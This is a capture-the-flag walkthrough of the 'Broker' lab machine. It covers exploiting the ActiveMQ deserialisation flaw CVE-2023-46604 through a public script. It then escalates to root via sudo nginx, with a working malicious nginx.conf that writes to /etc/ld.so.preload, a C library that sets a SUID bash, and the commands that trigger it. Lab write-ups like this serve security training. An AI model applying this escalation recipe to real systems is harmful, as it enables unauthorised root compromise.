





# Broker

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.39.87 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-09 02:11 EST
Nmap scan report for 10.129.39.87
Host is up (0.018s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
1883/tcp  open  mqtt
5672/tcp  open  amqp
8161/tcp  open  patrol-snmp
43739/tcp open  unknown
61613/tcp open  unknown
61614/tcp open  unknown
61616/tcp open  unknown
```

Did a detailed scan as well:

```
$ nmap -p 80,1883,5672,8161,43739 -sC -sV --min-rate 3000 10.129.39.87
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-09 02:12 EST
Nmap scan report for 10.129.39.87
Host is up (0.0068s latency).

PORT      STATE SERVICE    VERSION
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: Jetty(9.4.39.v20210325)
43739/tcp open  tcpwrapped
```

### ActiveMQ RCE

Port 80 had Apache ActiveMQ running:



Clicking on the Manage button brings us to the management dashboard:



This box was created to showcase the ActiveMQ RCE exploit (CVE-2023-46604). This vulnerability was given a CVSS rating of 10.0, which is quite rare. Ransomware groups are continuing to use this exploit to target organisations today.





Here's the breakdown of how the vulnerability works and the PoC:





This works because of unsafe deserialisation of data within the OpenWire protocol. In short, an attacker needs to connect to port 61616 and send an OpenWire packet with a specific data type (31).

The payload is created as a string of hex characters, and sent to port 61616. It uses a gadget from the Spring framework to load a remote XML file via HTTP, which can be used to spawn a process via `ProcessBuilder.start`.

I used the Python script from the Github repository to exploit it on this machine. The script provides us with a pseudoshell, which works:



From this, I can easily gain a reverse shell. 



## Privilege Escalation

### Sudo Privileges -> Nginx Exploit

The user was allowed to run `nginx` with `sudo`:

```
activemq@broker:~$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

This means I can specify whatever configuration file and run `nginx` with it. This could allow us to read files as `root`, but getting a shell is better.

Here's the resource I used to exploit it:



The researcher explained this pretty well. So what I did was first create a `nginx.conf` file with the `error_log` variable declared.

```
user root;
error_log /etc/ld.so.preload warn;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```

Afterwards, start the `nginx` server as `root`.

```
activemq@broker:/tmp$ sudo /usr/sbin/nginx -c /tmp/pe.conf
```

Next, use `curl` to send requests to our port, and there will be errors like so:

```
activemq@broker:/tmp$ curl localhost:1337/tmp/exploit.so
ERROR: ld.so: object '2023/12/09' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '11' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '58' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '25' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '[error]' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '1774' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```

This ensures that the string containing the path to the library is written to `/etc/ld.so.preload`. Next, write a `exploit.c` file as such:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
   chown("/tmp/priv", 0, 0);
   chmod("/tmp/priv", 04755); 
   unlink("/etc/ld.so.preload");
   printf("[+] done!\n");
}
```

`priv` in this case is just a copy of `bash`, which can be done using `cp /bin/bash /tmp/priv`. What this program does is make it a SUID binary. Compile it using `gcc -fPIC -shared -ldl -o /tmp/exploit.so exploit.c`. There will be a lot of errors, which can be ignored.

Lastly, run any SUID program as `root`, such as `sudo -l` to trigger the exploit and also generate a lot of logs:

```
activemq@broker:/tmp$ sudo -l
ERROR: ld.so: object '2023/12/09' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
<TRUNCATED>
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

This causes the library to be executed, creating a SUID `bash` binary for escalation.



Rooted! 

### Additional Notes

This LPE was rather interesting now I know that running `nginx` allows for writing to a file via `error_log`. This exploit works because of the fact that `ld.so.preload` specifies all the ELF shared libraries to be loaded before others, and all it needs is a PATH to be written within it. 

In our case, I wrote `/tmp/exploit.so` to it via causing errors with `curl`. This allowed for the library to be loaded as `root` when running `sudo -l`.

I was wondering if it was possible for users to upload files as `root` with the right `nginx` configurations, and turns out it is:



The above uses `dav_methods` to specify that PUT requests can be used, and I can even specify where the file goes. In this case, it seems that writing an `authorized_keys` folder for `root` is an alternate method.